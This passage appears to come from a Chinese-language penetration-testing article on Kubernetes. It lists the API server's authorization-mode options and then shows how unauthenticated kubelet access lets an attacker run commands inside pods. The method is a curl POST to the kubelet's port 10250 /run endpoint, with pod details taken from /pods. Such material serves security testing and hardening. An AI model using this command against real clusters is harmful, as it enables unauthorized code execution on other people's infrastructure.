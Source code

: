 [![](assets/1698894613-af2072fdbbd899d501f80ab683df4f4e.png)](https://storage.tttang.com/media/attachment/2022/03/12/d4f3e444-9f3d-4158-bd86-84941c374119.png)

```plain
关于 authorization-mode 还有以下的配置
--authorization-mode=ABAC 基于属性的访问控制（ABAC）模式允许你 使用本地文件配置策略。
--authorization-mode=RBAC 基于角色的访问控制（RBAC）模式允许你使用 Kubernetes API 创建和存储策略。
--authorization-mode=Webhook WebHook 是一种 HTTP 回调模式，允许你使用远程 REST 端点管理鉴权。
--authorization-mode=Node 节点鉴权是一种特殊用途的鉴权模式，专门对 kubelet 发出的 API 请求执行鉴权。
--authorization-mode=AlwaysDeny 该标志阻止所有请求。仅将此标志用于测试。
--authorization-mode=AlwaysAllow 此标志允许所有请求。仅在你不需要 API 请求 的鉴权时才使用此标志。
```

在我们发现 kubelet 未授权后，可以进行以下操作拿到入口点

#### [执行 Pod 内命令](#toc_pod)

如果有 kubelet 未授权，那就可以用以下命令在 Pod 内执行命令

```plain
curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"
```

其中的参数可以从 https://node\_ip:10250/pods 中获取
